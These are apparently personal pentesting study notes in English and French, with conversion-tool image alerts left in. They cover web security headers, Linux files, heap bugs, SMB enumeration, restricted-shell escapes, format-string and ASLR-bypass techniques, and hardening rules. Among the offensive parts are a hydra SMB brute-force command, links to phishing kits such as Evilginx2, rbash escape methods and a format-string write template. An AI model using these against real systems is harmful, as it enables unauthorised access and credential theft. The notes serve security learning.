**It is common to fetch JavaScript and style sheet libraries from third-party providers as it offers a variety of advantages, not least of which is the ability to leverage someone else's hosting infrastructure. But this also extends the overall attack surface, in that if the above mentioned provider is compromised, an attacker might inject malicious code into the hosted libraries, thus transforming a single-entity compromise into a massive supply-chain catastrophe, impacting every web application reliant on the tainted libraries in question.**


<p id="gdcalert227" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image227.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert228">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


### 
Impact


**Let's say a third-party provider like a Content Delivery Network (CDN) is compromised. Not checking the SRI could result in an attacker executing arbitrary code in the context of the web application with the impact only limited to what the web application can legitimately do.**


<p id="gdcalert228" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image228.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert229">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Incorrect Referrer Policy :

**Suppose that some legitimate web application allows untrusted users to add external links in one of its pages, for example:**


<p id="gdcalert229" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image229.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert230">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert230" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image230.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert231">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


8.  ClickJacking
* prevention


<p id="gdcalert231" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image231.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert232">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Preventing session cookies from being included when the page is loaded in a frame using the SameSite cookie attribute.
* Implementing JavaScript code in the page to attempt to prevent it being loaded in a frame (known as a "frame-buster").


<p id="gdcalert232" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image232.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert233">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


9.  Linux
* /etc/passwd file : 
    * **It stores user account information.**

**			**


* **One entry per line for each user.**
    * **It should have general read permission for many **

                **command utilities but write access only for admin.**

    * **Syntax :**

    **			Example with this line : root:x:0:0:root:/root:/bin/bash**

* **root: : username used when user logs in. It should be between 1 and 32 characters in length.**
* **:x: : Indication for password : an x character indicates that encrypted password is stored in /etc/shadow file. **
* **:0: : User ID (UID): Each user must be assigned a user ID. UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.**
* **:0: : Group ID (GID): The primary group ID (stored in /etc/group file)**
* **:root: : User ID Info: The comment field. It allows you to add extra information about the users ( user’s full name, phone number, …). **

                **This field is used by finger command for**


                **fetching.**

* **:/root: : Home directory: The absolute path to the directory the user will be in when they log in. If this directory does not exist then users directory becomes /.**
* **:/bin/bash: : Command/shell: The absolute path of a command or shell (/bin/bash). Typically, this is a shell.**

## 
    Some Environment variables in Linux:


<table>
  <tr>
   <td>
<strong>LD_LIBRARY_PATH</strong>
   </td>
   <td><strong>Indicates differents directories to search for libraries. </strong>
   </td>
  </tr>
  <tr>
   <td><strong>LD_PRELOAD</strong>
   </td>
   <td><strong>Specify a library which will be loaded prior to any library when the program gets executed.</strong>
   </td>
  </tr>
</table>


* Fonctionnement de la HEAP ( glibc heap ):
    * **The way the heap works is very platform and implementation specific ( example : The default _glibc _heap implementation in _Linux _is also very different to how the heap works in _Windows )_**

**				**


* Some basic HEAP rules:

<table>
  <tr>
   <td>
<strong>Rule</strong>
   </td>
   <td><strong>Can lead to ...</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Don’t read or write to a pointer returned by malloc ( and like-malloc functions ) after that pointer has been passed back to free</strong>
   </td>
   <td><strong>Use After Free</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Don’t use or leak uninitialized information in a heap allocation ( Exception for calloc ).</strong>
   </td>
   <td><strong>Information leaks , uninitialized data Vuln.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Don’t read or write bytes after the end of an allocation.</strong>
   </td>
   <td><strong>Heap overflow, read beyond bounds Vuln.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Don’t pass a pointer that originated from malloc ( and like-malloc functions ) to free more than one.</strong>
   </td>
   <td><strong>Double Free Vuln.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Don’t read or write bytes before the beginning of an allocation.</strong>
   </td>
   <td><strong>Heap underflow Vuln.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Don’t pass a pointer that didn’t originate from malloc to free.</strong>
   </td>
   <td><strong>Invalide free Vuln.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Don’t use a pointer returned by malloc ( and like-malloc functions ) before checking if the function returned NULL.</strong>
   </td>
   <td><strong>Null-dereference bugs</strong>
<p>
<strong>arbitrary write Vuln</strong>
   </td>
  </tr>
</table>


### 		Spécification :


* **The heap manager also needs to store metadata about the allocation.**


<p id="gdcalert233" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image233.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert234">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **The heap manager also needs to ensure that the allocation will be 8-byte aligned on 32-bit systems, or 16-byte aligned on 64-bit systems. So some paddings bytes are stored when it’s needed.**

                **Many functions ( like “system” or “exec” in C) can drop Setuid privilege for security reasons.**


## 			  Some important file in Linux system


<table>
  <tr>
   <td><strong>.[ sh | zsh | ksh | bash ]rc</strong>
   </td>
   <td><strong>Provide a place where you can set up variables, functions and aliases, define your prompt and define other settings that you want to use every time you open a new terminal window.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>.[ sh | zsh | ksh | bash ]_profile</strong>
   </td>
   <td><strong>Comme .[]rc, sauf qu’il est exécuté pour les login shell, c'est à dire là où vous saisissez votre login et mot de passe. </strong>
<p>
<strong>C'est par exemple le cas lors de votre première connexion au démarrage de votre machine ou lors d'une connexion SSH.</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* SMB Penetration Testing (Port 445)
* Le logiciel Samba est un outil permettant de partager des dossiers et des imprimantes à travers un réseau local. Il permet de partager et d'accéder aux ressources d'autres ordinateurs fonctionnant avec d’autres systèmes d'exploitation dans lesquels une implémentation de Samba est installée.

    Il implémente le protocol SMB ( Server Message Block ) ( port 139 et 445 ).


    Some Bamba command


<table>
  <tr>
   <td>
smbclient  \\\\[IP]\\sambashare
   </td>
   <td>Find the shares which we can access without creds
   </td>
  </tr>
  <tr>
   <td>get [NAME_FILE]
   </td>
   <td>Une fois rentré dans les fichiers partagés ,on peut récupérer un fichier avec cette commande.
   </td>
  </tr>
  <tr>
   <td>smbclient //[IP]/LOCUS_LAN$
   </td>
   <td>Accède au fichier “LOCUS_LAN”
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


**The SMB protocol supports two levels of security. The first is the share level. The server is protected at this level and each share has a password. The client computer or user has to enter the password to access data or files saved under the specific share.**

**During the enumeration phase ( of this functionality ), generally, we go for banner grabbing to identify a vulnerable version of the running service and the host operating system. You can do this via nmap :**


<p id="gdcalert234" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image234.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert235">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**There are so many automated scripts and tools available for SMB enumeration.**

**If you get fail to enumerate the vulnerable state of SMB or found a patched version of SMB in the target machine, then we have “Brute force” as another option to gain unauthorized access to a remote machine.**


<p id="gdcalert235" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image235.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert236">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**hydra -L user.txt -P pass.txt 192.168.1.101 smb**


<p id="gdcalert236" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image236.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert237">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


## 					  Phishing tools


<table>
  <tr>
   <td><strong>AdvPhising</strong>
   </td>
   <td><strong>https://github.com/Ignitetch/AdvPhishing</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Shellphish</strong>
   </td>
   <td><strong>https://github.com/kaankadirkilic/shellphish-1</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Evilginx2</strong>
   </td>
   <td><strong>https://github.com/kgretzky/evilginx2</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


**					**


## 				       File System in Linux


<table>
  <tr>
   <td>
<ul>

<li><strong>/</strong>
</li>
</ul>
   </td>
   <td>
<ul>

<li><strong>Every single file and directory starts from this root directory.</strong>
<ul>

<li><strong>Only the root user has write privilege under this directory.</strong>
<ul>

<li><strong>Please note that /root is the root user’s home directory, which is not the same as /.</strong>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>/bin</strong>
</li>
</ul>
   </td>
   <td>
<ul>

<li><strong>Contains binary executables.</strong>
<ul>

<li><strong>Common linux commands you need to use in single-user modes are located under this directory.</strong>
<ul>

<li><strong>Commands used by all the users of the system are located here.</strong>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>/sbin</strong>
</li>
</ul>
   </td>
   <td>
<ul>

<li><strong>Just like /bin, /sbin also contains binary executables.</strong>
<ul>

<li><strong>But, the linux commands located under this directory are used typically by system administrators, for system maintenance purposes ( ipatables, ifconfig,...).</strong>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>/etc</strong>
</li>
</ul>
   </td>
   <td>
<ul>

<li><strong>Contains configuration files required by all programs.</strong>
<ul>

<li><strong>This also contains startup and shutdown shell scripts used to start/stop individual programs.</strong>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>/dev</strong>
</li>
</ul>
   </td>
   <td>
<ul>

<li><strong>Contains device files.</strong>
<ul>

<li><strong>These include terminal devices, usb, or any device attached to the system.</strong>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>/proc</strong>
</li>
</ul>
   </td>
   <td>
<ul>

<li><strong>Contains information about system process.</strong>
<ul>

<li><strong>This is a pseudo file system containing information about running process ( /proc/{pid} )...</strong>
<ul>

<li><strong>This is a virtual filesystem with text information about system resources.</strong>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>/var</strong>
</li>
</ul>
   </td>
   <td>
<ul>

<li><strong>“var” stands for <em>variable files</em>.</strong>
<ul>

<li><strong>Content of the files that are expected to grow can be found under this directory.</strong>
<ul>

<li><strong>This includes :</strong> 
<ul>
 
<li><strong>System log file (/var/log)</strong> 
<ul>
 
<li><strong>Packages and database files (/var/lib) </strong> 
<ul>
 
<li><strong>Emails (/var/mail)</strong>
<ul>

<li><strong>Temp files needed across reboots (/var/tmp)</strong>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>/tmp</strong>
</li>
</ul>
   </td>
   <td>
<ul>

<li><strong>Directory that contains temporary files created by system and users.</strong>
<ul>

<li><strong>Files under this directory are deleted when the system is rebooted.</strong>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>/usr</strong>
</li>
</ul>
   </td>
   <td>
<ul>

<li><strong>Contains binaries, libraries, documentation, and source-code for second level programs.</strong>
<ul>

<li><strong>/usr/bin contains binary files for user programs. If you can’t find a user binary under /bin, look under /usr/bin ( same as /sbin and /usr/sbin ).</strong>
<ul>

<li><strong>/usr/lib contains libraries for /usr/bin and /usr/sbin</strong>
<ul>

<li><strong>/usr/local contains users programs that you install from source. For example, when you install apache from source, it goes under /usr/local/apache2</strong>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>/home</strong>
</li>
</ul>
   </td>
   <td>
<ul>

<li><strong>Home directories for all users to store their personal files.</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>/boot</strong>
</li>
</ul>
   </td>
   <td>
<ul>

<li><strong>Contains boot loader related files.</strong>
<ul>

<li><strong>Kernel initrd, vmlinux, grub files are located under /boot</strong>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>/lib</strong>
</li>
</ul>
   </td>
   <td>
<ul>

<li><strong>Contains library files that supports the binaries located under /bin and /sbin</strong>
<ul>

<li><strong>Library filenames are either ld* or lib*.so.*</strong>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>/opt</strong>
</li>
</ul>
   </td>
   <td>
<ul>

<li><strong>“opt” stands for optional.</strong>
<ul>

<li><strong>Contains add-on applications from individual vendors.</strong>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>/mnt</strong>
</li>
</ul>
   </td>
   <td>
<ul>

<li><strong>Temporary mount directory where sysadmins can mount filesystems.</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>/media</strong>
</li>
</ul>
   </td>
   <td>
<ul>

<li><strong>Temporary mount directory for removable devices.</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>/srv</strong>
</li>
</ul>
   </td>
   <td>
<ul>

<li><strong>“srv” stands for service.</strong>
<ul>

<li><strong>Contains server specific services related data.</strong>
<ul>

<li><strong>For example, /srv/cvs contains CVS related data.</strong>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* **le dossier /_dev_/_input_/ est liée aux inputs de tous les devices extérieures connectés ( souris, clavier, …)**
* **Sur une machine Ubuntu, un message de bienvenue accueille l'utilisateur lors d'une connexion en ligne de commande (SSH) .**

**Ce message est nommé le message du jour (motd).**

**Si on obtient les droits d’écritures sur le répertoire liée à ce **

**système, on peut prendre le contrôle de l’utilisateur root.**


* Shell restreint

**Un shell restreint (restricted shell) est un shell système, modulable de**

**sorte à restreindre les possibilités des utilisateurs. Un tel shell est utilisé**

**en général au moment où l'administrateur doit créer un compte pour un**

**utilisateur à qui il ne fait pas complètement confiance.**

**La plupart des programmes n'ont pas hélas été écrits pour travailler avec**

**les shells restreints ( telnet, mail, ftp, less, more, vi, gdb, lynx ). Certains **

**d'entre eux contiennent une fonction intégrée, permettant d'appeler le shell**

**normal (shell escape). Cette fonction est en général appelée à l'aide du **

**caractère “ _!_ ”.**

**Nous pouvions nous attendre à ce que les commandes transférées soient**

**exécutées en se basant sur le shell défini dans la variable SHELL – dans **

**notre cas /bin/rbash. Hélas, ce n'est pas toujours le cas. Une partie de ces **

**programmes ne tient pas compte des variables d'environnement et ils **

**exécutent les commandes transférées à l'aide du shell /bin/bash ou bien **

**/bin/sh.**

**L’escape passe parfois par le modification de la variable d'environnement**

**$SHELL ( en /bin/bash ).**


* **Modifier les droits des fichiers et des répertoires**

**	Si l'administrateur se trompe et rend disponible la commande chmod, il se**

** 	peut que l'utilisateur attribue le droit +w au répertoire personnel, ce qui**


    **l'autorisera à supprimer le fichier .bash_profile. À la prochaine connexion, la variable PATH ne sera pas restreinte à /usr/local/rbin et donc il est fort probable que le chemin contiendra le répertoire /bin (ce qui permettra de lancer le bash normal).**


    **Il est parfois possible de modifier les droits sans utiliser le programme /bin/chmod ( par exemple avec FTP, si on a accès à ce service, l'utilisateur peut faire la commande chmod 777 après s'être connecté au port 21 pour supprimer facilement le fichier .bash_profile ou l'écraser avec un autre.. )**


* **Interrompre le script de démarrage**
* 

**Les administrateurs créent souvent des scripts de démarrage développés et**

**oublient la gestion de signaux.**


    

<p id="gdcalert237" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image237.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert238">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Sur ce script, Il suffit que l'utilisateur appuie sur les touches [CTRL]+[C]**

**lors de la commande sleep 5 et le script s'arrêtera alors immédiatement avant de mettre en place rbin. l'utilisateur ne sera donc pas limité aux**

**commandes du répertoire rbin.**


* **Téléchargement de la bibliothèque**

**Une méthode intéressante pour quitter le shell restreint, capable de réussir, **

**consiste à charger la bibliothèque spécialement préparée ( shared library**

**hijacking ).**


<p id="gdcalert238" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image238.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert239">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**                     Common Exploitation Techniques**


<p id="gdcalert239" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image239.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert240">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert240" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image240.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert241">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert241" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image241.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert242">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**	**

<p id="gdcalert242" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image242.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert243">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**-------------------------------------------------------------------**


* 


## /etc/shadow file fields


<p id="gdcalert243" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image243.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert244">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Système de volume logique de linux

**	**

<p id="gdcalert244" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image244.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert245">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Une image à peu près similaire :**


<p id="gdcalert245" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image245.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert246">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**UNIX-like operating systems distinguish between processes running within the kernel (running in kernel mode) and processes started by users (running in user mode) including the special user root. Memory belonging to the kernel can be accessed via the device files (/dev/kmem) and (/dev/mem).**


## 
            Shared Library Hijacking :


<p id="gdcalert246" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image246.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert247">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* we can add:
    * Verify if DT_RUNPATH and DT_RPATH are set : echo $DT_RUNPATH ; echo $DT_RPATH.
    * Test LD_PRELOAD (But you can’t execute arbitrary SUID libraries with this variable for security reasons).


<p id="gdcalert247" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image247.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert248">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


			     with LD_PRELOAD not mentioned


## 
            MISC


<p id="gdcalert248" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image248.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert249">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* The encodage “Base64 without padding” consists of removing the “=” at the end and replacing “+” and “/” by “_”. 
* Booter en _mode single user_ sous Linux permet d'être connecté directement en root sans taper de mot de passe. C'est très utile quand on a perdu le mot de passe root ou que le système refuse de booter correctement, car on est dans un mode minimaliste avec peu de choses démarrées.

À noter que dans ce mode, les modifications sont temporaires. Elles ne sont

pas enregistrées sur le disque et seront perdues au prochain reboot.

Linux permet néanmoin de configurer la demande le mot de passe root 

même en mode _single-user_.


* All users had their home directory in /home (which is very common). However, it's not always the case (especially for service accounts). You can find the location of this home directory of each user by inspecting /etc/passwd.
* Administrators often leave files in /tmp as /tmp gets cleanup after each reboot.

    Therefore, it's really important when auditing or gaining access to a system to see what files you can find in /tmp.


    Also administrators often leave files in /var/tmp. But the directory /var/tmp does not get cleanup after each reboot.

* The sticky bit ( drwxrwxrwt ) only allows the user who created a file in this directory (or the owner of the directory, ie: root) to modify this file.
* A vulnerability assessment is designed to find as many flaws as possible in order to make a prioritized list of remediation items
* A penetration test is designed to see if a mature defense can stop an attacker from achieving one or more specific goals.
* A red team engagement is designed to continuously test and improve the effectiveness of a company’s blue team by mimicking real-world attackers.

    A Red Team Assessment is similar to a penetration test in many ways but is more targeted. The goal of the Red Team Assessment is NOT to find as many vulnerabilities as possible. The goal is to test the organization's detection and response capabilities.


	


* Ninja = Red team

    Pirate = Pentest

* When specified at compile time the RPATH ( or RUNPATH ) path is embedded in the binary and is the first path searched when searching for a library.
* A calling convention is a set of rules dictating how function calls work at the machine level ( assembler ). It is defined by the Application Binary Interface (ABI) for a particular system. For example :

                Should the parameters be passed through the stack, in registers, or both? 


                Should the parameters be passed in from left-to-right or right-to-left? 


                Should the return value be stored on the stack, in registers, or both? 


                There are many calling conventions, but the popular ones are CDECL, STDCALL, THISCALL, and FASTCALL.


        

<p id="gdcalert249" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image249.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert250">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* In x86-64, memory addresses are 64 bits long but user space only uses the first 47 bits. If you specify an address above 0x00007fffffffffff, you’ll raise an exception.
* When an executable file has its setuid bit enabled, it allows anyone to execute the program with the same permissions as the file’s owner.
10. Linux Hardening Rules

<table>
  <tr>
   <td>
Règles
   </td>
   <td>Raison
   </td>
   <td>Moyens de vérification
   </td>
  </tr>
  <tr>
   <td>Ne jamais utiliser le mot NOPASSWD pour les règles sudoers
   </td>
   <td>Il est essentiel de laisser cette barrière de protection de l’écriture du mot de passe pour des commandes demandant des droits sudoers
   </td>
   <td>Vérifier les sudoers file présent sur le serveur et look si le mot NOPASSWD est présent
   </td>
  </tr>
  <tr>
   <td>Seuls les composants strictement nécessaires au service rendu par le système doivent
<p>
être installés
   </td>
   <td>
<ul>

<li>Réduire la surface d’attaque au strict minimum
<ul>

<li>Permettre une mise à jour et un suivi du système efficace
<ul>

<li>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
   <td>
<ul>

<li>Look les services en écoute sur les ports et comprendre chacun des services présents
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


11.  PWN - Exploit mistakes in programming and execution
* Memory leak
    * **A memory leak is bad because it can eat the entire RAM. You don't know how much time user will **remain until your** application or **service is opened**. It might be for minutes, hours, days or even months, and once an user has opened your software, if you didn't implement your software in the right way to prevent memory leaks, you can disturb the user or even crash the OS!**
    * 
* Exploits de type “format strings”:
* **Cette exploit peut se faire lorsque l’utilisateur n’utilise pas correctement les fonctions de la famille _printf_ ( avec les opérateurs ).**

                **Exemple avec printf : **


                **printf(user_input) A LA PLACE DE printf("%s", user_input);**


                

<p id="gdcalert250" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image250.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert251">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


    * **formateur %u : entier non-signé.**
    * **formateur %x : hexa.**
    * **formateur %c : unique caractère.**
    * **formateur %f : nombre à virgule.**
    * **formateur %s : chaine de caractère.**
    * **formateur %n : nombre de bytes écrites jusqu’à ici.**

**				**


* **Il existe 2 types de formateurs :**
    * **formateur “directs” : Affiche tout simplement la valeur sur laquelle il se trouve ( dans la pile ) comme le formateur %x.**

**						**


* **formateur “pointeurs” :  Afficher la valeur POINTÉE par la valeur qu'il cible comme le formateur %s,%n ...**
* **le formateur %n écrit dans la mémoire le nombre de caractères déjà affiché par la fonction à l’adresse qu’il pointe sur la stack.**

**					**


* **le formateur %hn écrit 2 octets à la place de 4 octet ( comme le fait %n )**

**					**


* **“%5$n” : Cela veut dire : "le cinquième élément de 4 octets sur la pile est un %n”. Cette notation est équivalente à “%x%x%x%x%n” mis à part que les 4 premières valeurs pointées par les %x ne s'afficheront pas.**

**				**


* **“%XXXXd” : Génère un entier de taille XXXX digit.**

**				**

**				**


* **Pour écrire dans la mémoire avec une exploit de type string, il faut envoyer ca a une fonction vulnérable : **

            **“[ adresse Ou tu veux écrire ] + [ ceux que tu veux écrire à l’adresse voulu] + %[EMPLACEMENT SUR LA PILE DE L’ADRESSE]$n”.**

* **Pour exécuter un programme sur GDB et sur l’OS avec le même environnement :**


<p id="gdcalert251" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image251.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert252">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* L’ASLR


### 			Définition


            **	ASLR (pour Address Space Layout Randomization) ! Il s’agit d’une protection qui fait varier les adresses de certaines zones mémoires (mais pas toutes) à chaque lancement du programme. **


<p id="gdcalert252" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image252.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert253">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Bypass ASRL :
    * Brute Force.
    * Any user, able to run 32-bit applications in a x86 machine, can disable the ASLR by setting the RLIMIT_STACK resource to unlimited ( still present in few system Linux): ulimit -s unlimited
    * Utiliser un Offset par rapport à une adresse connu.
    * Utiliser des exploits bypassant le ASLR ( comme ROP )
* **PIE : ASLR sur d’autres sections du programme.**
* SSP ( stack smashing protector )


<p id="gdcalert253" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image253.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert254">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert254" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image254.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert255">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* RELRO


<p id="gdcalert255" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image255.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert256">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Use-After-Free : 
    * **Exploitation pouvant être utilisée si une personne après un free() ne met pas le pointeur à NULL. Le pointeur reste actif et pointe toujours vers la même adresse mémoire.**
* Return-to-libc : 
